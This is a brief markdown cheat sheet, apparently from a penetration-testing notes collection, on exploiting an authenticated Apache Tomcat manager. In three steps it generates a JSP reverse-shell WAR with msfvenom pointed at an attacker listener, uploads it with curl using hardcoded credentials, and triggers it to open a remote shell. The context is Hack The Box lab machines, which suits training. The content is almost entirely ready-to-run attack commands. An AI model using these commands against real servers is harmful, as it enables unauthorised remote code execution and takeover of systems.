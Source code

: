 # Exploiting Tomcat Virtual Host Manager

With an authenticated access to Tomcat Virtual Host Manager, available at the path `/host-manager/`, we can upload a malicious WAR file to get a reverse shell access.

1. Generate attack payload

        msfvenom -p java/jsp_shell_reverse_tcp LHOST=<hackthebox_IP> LPORT=4444 -f war > shell.war

2. Upload the generated WAR file

        curl -u 'tomcat':'password123' -T shell.war 'http://10.10.10.4:8080/manager/text/deploy?path=/rev_shell'

3. Execute the payload to get a reverse shell

        curl -u 'tomcat':'password123' http://10.10.10.194:8080/rev_shell/

## References

* https://www.geeksforgeeks.org/tabby-hack-the-box-walkthrough-for-user-flag/
* https://medium.com/@cyb0rgs/exploiting-apache-tomcat-manager-script-role-974e4307cd00
